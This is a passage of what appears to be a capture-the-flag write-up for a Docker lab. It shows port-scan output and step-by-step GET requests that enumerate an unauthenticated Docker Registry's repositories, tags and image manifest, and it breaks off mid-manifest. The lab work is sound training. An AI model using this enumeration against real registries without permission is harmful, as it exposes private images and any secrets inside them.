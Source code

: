 ```
|   KernelVersion: 4.15.0-123-generic
|   Arch: amd64
|   Os: linux
|   Platform: 
|     Name: Docker Engine - Community
|   Version: 19.03.13
|   GoVersion: go1.13.15
|_  ApiVersion: 1.40
5000/tcp open  http    syn-ack Docker Registry (API: 2.0)
7000/tcp open  http    syn-ack Docker Registry (API: 2.0)
```

**Note: Here we are using Postman tool to post requets**

1. Discovering Repositories 

Get Request to `http://docker-rodeo.thm:5000/v2/_catalog`.

```json
{
    "repositories": [
        "cmnatic/myapp1",
        "dive/challenge",
        "dive/example"
    ]
}
```

2. Now we have container name so we have to know about different versions available.

Get Request to `http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/tags/list`

```json
{
    "name": "cmnatic/myapp1",
    "tags": [
        "notsecure",
        "latest",
        "secured"
    ]
}
```

# Grabbing the Data!

With these two important pieces of information about a repository known, we can enumerate that specific repository for a manifest file. This manifest file contains various pieces of information about the application, such as size, layers and other information. Let's grab the manifest file for the "notsecure" tag .

GET request to `http://docker-rodeo.thm:5000/v2/cmnatic/myapp1/manifests/notsecure`

```json
{
   "schemaVersion": 1,
   "name": "cmnatic/myapp1",
   "tag": "notsecure",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:6e9b6055dfc50d2c85f1d56a61686f0f155632ed00eb484f2faae99fcdde9bee"
      },
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:4429b8d1a27b563a13bea19a39dc9cda477b77bb94dcf95236b80bfaeaddd4b9"
```